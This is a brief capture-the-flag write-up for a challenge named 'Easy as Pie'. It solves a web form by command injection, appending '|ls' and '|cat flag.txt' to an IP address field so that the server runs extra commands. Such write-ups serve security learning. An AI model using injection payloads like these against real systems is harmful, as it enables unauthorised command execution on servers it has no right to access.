



## Easy as Pie

Task: Once in a remote Norwegian town, a group of skilled security professionals had convened in a fancy cabin to collaborate and achieve their objectives. On their network, they found a number of challenges that required their collective expertise. Do you have what it takes to tackle these challenges too?

The challenge provides you this website:

This is a classic example of remote code execution. 
I can just submit the payload `ip=127.0.0.1|ls`

To obtain the flag:
`ip=127.0.0.1|cat flag.txt`

I can also see it like this in the UI:

